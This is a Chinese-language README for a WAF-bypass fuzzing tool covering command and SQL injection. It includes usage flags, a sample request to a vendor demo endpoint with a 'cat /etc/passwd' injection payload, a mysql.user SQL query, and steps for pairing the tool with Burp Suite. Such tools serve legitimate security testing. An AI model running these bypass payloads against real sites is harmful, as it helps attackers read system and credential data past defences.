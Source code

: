 一个基于fuzz的waf绕过测试工具，当前支持命令执行、SQL注入绕过。后续会支持更多绕过方式、攻击类型。

```
Usage:
  ./x-waf -target <request_file> [flags] [command]
  ./x-waf [command]

Available Commands:
  cmd         fuzz cmd injection
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  sql         fuzz sql injection

Flags:
      --debug-file-path string          specify request response log file path
      --fuzz-count int                  specify max fuzz times (default 10000000)
  -h, --help                            help for ./x-waf
      --justOutPutPayload               just output payload to payloads.txt
      --log-level string                specify log level, default is info (default "info")
      --target string                   specify the request file path
      --target-https                    specify whether the request is https protocol (default true)
      --target-mark string              specify the request fuzz position mark (default "%{{.*}}%")
      --waf-block-regex string          specify waf block regex
      --waf-block-rsp-status-code int   specify waf block response status code (default 403)

Use "./x-waf [command] --help" for more information about a command.
```

# 使用步骤
1、准备需要绕过的HTTP请求文件，例如：test.http

```
POST /demo/detect/ HTTP/1.1
Host: cmdchop.chaitin.com
accept: application/json, text/javascript, */*; q=0.01
accept-language: zh-CN,zh;q=0.9,en;q=0.8
content-type: application/json
cookie: _ga=GA1.2.212169703.1725506930; _ga_PNVRK9GRJ2=GS1.2.1725527773.2.1.1725529516.0.0.0; user_id=f62aa452-d92a-405a-9295-49aba0ed6d47; cid=dea7646d-7542-432f-858f-c745914a1e73; mid=c0b990d0-a3dc-455c-9f66-bac94da0b098
origin: https://cmdchop.chaitin.com
priority: u=1, i
referer: https://cmdchop.chaitin.com/demo/
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
x-requested-with: XMLHttpRequest
Content-Length: 50

{"type":"urlpath","payload":"/?p=cat /etc/passwd"}
```

2、将payload的位置用%{{.*}}%标记，例如：

```
{"type":"urlpath","payload":"/?p=%{{cat /etc/passwd}}%"}
```

3、运行命令：

```
./x_waf --target test/chatin-cmdchop.http --waf-block-regex payload cmd --fuzz-cmd-mode real
```

--fuzz-cmd-mode real 会实际执行命令，验证payload是否有效，当前只支持查看/etc/passwd文件内容

--fuzz-cmd-mode mock 会解析命令，验证payload是否有效，支持任意命令

--waf-block-regex payload 指定waf拦截时页面响应的匹配内容，支持正则表达式

4、查看bypass结果：

```
cat result.txt
```

# 和burpsuite配合使用
当程序遇到各种奇怪的报错时，你可以选择使用x-waf只生成payload，然后用burpsuite intruder模块来遍历发包，根据响应状态码或者响应长度来判断是否拦截。

```
./x --justOutPutPayload --target test/chatin-sqlchop.http sql --fuzz-sql 'select user from mysql.user' --fuzz-count 1000
```

--justOutPutPayload 导出payload到payloads.txt文件

# 注意事项
如果目标不是https，就加`--target-https=false`参数

# 运行截图
<img width="800" alt="image" src="https://github.com/user-attachments/assets/5d9bb89e-5a46-4e13-b203-3d43a3c68753">

# 交流群
<img width="300" alt="image" src="https://github.com/user-attachments/assets/c4394b37-1882-4e02-945b-8d615ec2ba18">


